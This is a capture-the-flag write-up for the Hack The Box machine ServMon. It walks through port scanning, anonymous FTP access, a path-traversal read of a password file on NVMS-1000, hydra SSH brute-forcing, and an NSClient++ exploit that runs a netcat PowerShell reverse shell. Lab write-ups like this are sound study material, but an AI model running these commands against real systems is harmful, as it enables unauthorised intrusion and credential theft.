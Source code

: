 ```yaml
---
date: 2025-03-01
categories: [Windows, Easy]
---
```


![ServMon](https://labs.hackthebox.com/storage/avatars/2bc1a8dc04b09b8ac2db694f25ccf051.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [del_KZx497Ju](https://app.hackthebox.com/users/82600)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Windows   |

---









- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.
	
	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.10.184 -oG scan
	/opt/extractports scan
	nmap -p21,22,80,135,139,445,5666,6063,6699,8443,49664,49665,49666,49667,49668,49669,49670 -sCV -Pn 10.10.10.184 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/bba39790-5714-412e-8fa8-a2303c16b969)

- In this survey I find the possibility to enumerate by ftp using anonymous credentials.
	
	```python
	ftp 10.10.10.184
		anonymous:anonymous
	```
	
	![image](https://github.com/user-attachments/assets/c535bc4c-ca38-4faa-bac1-f0ea5642bb1e)

	![image](https://github.com/user-attachments/assets/ea7ea863-6b98-480e-87c6-8427b199b7e1)
	
	![image](https://github.com/user-attachments/assets/4cfd5de9-1ed2-413b-9814-ac021f655aec)

- Only with the found files I can't do anything at the moment, I am still looking at the rest of the found ports.
- On port 80 I find nvms-1000 running. When searching for information about this CMS I find a vulnerability that allows to read files by doing a directory path traversal.

	![image](https://github.com/user-attachments/assets/218bd1f4-6cf8-42bb-812e-6d6f519c7d27)

- Making use of this vulnerability and using the information collected in the ftp files found, I manage to read a file that was referenced and contains possible passwords.
	
	```python
	curl http://10.10.10.184/../../../../../../../../Windows/System32/Drivers/etc/hosts  --path-as-is
	curl http://10.10.10.184/../../../../../../../../Users/Nathan/Desktop/Passwords.txt  --path-as-is
	```
	
	![image](https://github.com/user-attachments/assets/5a9aab73-bc9e-486d-a06b-b7d6027d224f)

- I validate the passwords found with the 2 users I know at the moment and find the credentials of one of them.
	
	```python
	hydra -L usernames -P passwords  ssh://10.10.10.184
	```
	
	![image](https://github.com/user-attachments/assets/dfcd3d71-36aa-497a-b763-387a241192ff)
	
- With these credentials I connect to the system via ssh and I manage to read the first flag

	![image](https://github.com/user-attachments/assets/455e2962-a579-45ac-8159-c452ed1527a5)

- When searching through the system files I find one that is not common. NSClient++. When searching for information about this one I find that there is a vulnerability that allows to have RCE once authenticated.

	![image](https://github.com/user-attachments/assets/32212e63-0f50-4785-96f8-c7f33e593d5c)

- Searching through your files I find a password.  I share the port through which this application is running to my system and verify that it is correct.

	```python
	ssh Nadine@10.10.10.184 -L 9999:127.0.0.1:8443
	```

	![image](https://github.com/user-attachments/assets/60f8cd7d-6107-4fd3-a6db-a1dbe30d10cd)

- I try to follow the steps found to exploit this vulnerability but I am not able to due to the inconsistency of the application. I search for a PoC and find one in [exploitdb](https://www.exploit-db.com/exploits/46802). Using it I get an interactive console as nt autority and I manage to read the second flag. 
	
	```python
	python3 48360.txt -t 127.0.0.1 -P 9998 -p ew2XXXXXXXXXOT -c "C:\\temp\\nc64.exe 127.0.0.1 9001 -e powershell"
	```
	
	![image](https://github.com/user-attachments/assets/2c4048ce-ac6a-4ec0-abb0-fddbf166a2a0)
